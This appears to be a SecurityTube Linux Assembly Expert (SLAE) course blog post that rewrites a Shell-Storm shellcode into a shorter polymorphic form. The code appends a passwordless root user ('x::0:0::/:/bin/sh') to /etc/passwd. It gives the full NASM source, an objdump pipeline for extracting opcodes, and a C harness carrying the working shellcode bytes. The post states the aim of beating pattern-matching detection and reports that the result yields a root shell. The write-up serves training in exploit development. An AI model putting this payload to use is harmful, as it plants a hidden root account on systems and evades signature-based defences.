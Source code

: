 # Assignment 6: Append Passwd

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

## Problem

- Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching
- The polymorphic versions cannot be larger than 150% of the existing shellcode
- Bonus points for making it shorter in length than original

## Solution

In this post we are going to look at the Append Passwd shellcode avaiable at ![http://shell-storm.org/shellcode/files/shellcode-561.php](http://shell-storm.org/shellcode/files/shellcode-561.php "").

This shellcode is meant to add a new system user to the `/etc/passwd` file.


### Shellcode Analysis

To begin, lets grab a copy of that shellcode, compile it, and trace it with GDB:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/passwd/gdb1.png "GDB")

As can be appreciated, the shellcode uses the JMP-CALL-POP technique to get the payload address on the stack. The payload in this case is is the following string:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/passwd/gdb2.png "Payload")

which is of course the file name and the user string to be appended. 

The shellcode then goes on to replace the `#` symbols in the payload by `\x00`s, effectively NULL-terminating both strings. Then, a file descriptor for `/etc/passwd` is created with the `open()` system call, and `toor::0:0:t00r:/root:/bin/bash` is appended with the `write()` system call. Finally, the program gracefully exits with the `exit()` system call. 


### Polymorphic Shellcode

To re-create this shellcode, several tweaks were applied to make the shellcode shorter. In no particular order:
- `/etc/passwd` is pushed on the stack, which changes the operations needed before the `open()` call
- `x::0:0::/:/bin/sh` is appended, which trims down a few bytes
- payload length is explicitly specified (not calculated at run time)
- additional steps, associated with the original shellcode, are cut and/or rewritten

The final version looks like this:

### a6-passwd.nasm
```nasm
; SLAE Assignment 6: Append Passwd (morphed)
; http://shell-storm.org/shellcode/files/shellcode-561.php
; Original Shellcode Length:	107 
; Morphed Shellcode Length:		74

global _start
section .text
_start:
	jmp short stage

append:
	pop esi
	cdq
	mov byte [esi+24], dl

	push byte 0x5 				; #define __NR_open 5
	pop eax 					; int open(const char *pathname, int flags);
	push edx
	push byte 0x64 				; d
	push word 0x7773			; ws
	push 0x7361702f				; sap/
	push 0x6374652f				; cte/
	mov ebx, esp 				; *pathname -> /etc/passwd
	xor ecx, ecx 		
	inc ecx 					; flags = 1		#define O_WRONLY        00000001
	mov ch, 0x4 				; flags = 401	#define O_NOCTTY        00000400
	int 0x80 					; open

	xchg eax, ebx 				; fd 
	push byte 0x4 				; #define __NR_write 4
	pop eax 					; ssize_t write(int fd, const void *buf, size_t count);
	mov ecx, esi 				; *buf -> x::0:0::/:/bin/sh
	push byte 0x11 				; length = 17 bytes
	pop edx 					; count = 17
	int 0x80 					; write

	push byte 0x1 				; #define __NR_exit 1
	pop eax 					; int exit(int status)
	int 0x80 					; exit

stage:
	call append
	usr: db "x::0:0::/:/bin/sh"
```

Let's compile, link, and get the opcodes:

```
nasm -f elf32 -o a6-passwd.o a6-passwd.nasm
ld -o a6-passwd a6-passwd.o 
objdump -d ./a6-passwd |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g' 
```

Make an executable skeleton for the opcodes:

### passwd.c
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x32\x5e\x99\x88\x56\x18\x6a\x05\x58\x52\x6a\x64\x66\x68\x73\x77\x68\x2f\x70\x61\x73\x68\x2f\x65\x74\x63\x89\xe3\x31\xc9\x41\xb5\x04\xcd\x80\x93\x6a\x04\x58\x89\xf1\x6a\x11\x5a\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xc9\xff\xff\xff\x78\x3a\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68";

int main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```

And finally compile, execute, and check:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/passwd/example.png "Example")

Looks like everything works as expected. The new user `x` is able to use `/bin/sh` with root privileges.

Now let's go on to check how the morphed version compares to the original shellcode.

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/passwd/length.png "Shellcode length")

Our morphed version is 74 bytes in length, which is of course 33 bytes shorter than the original 107 bytes. 
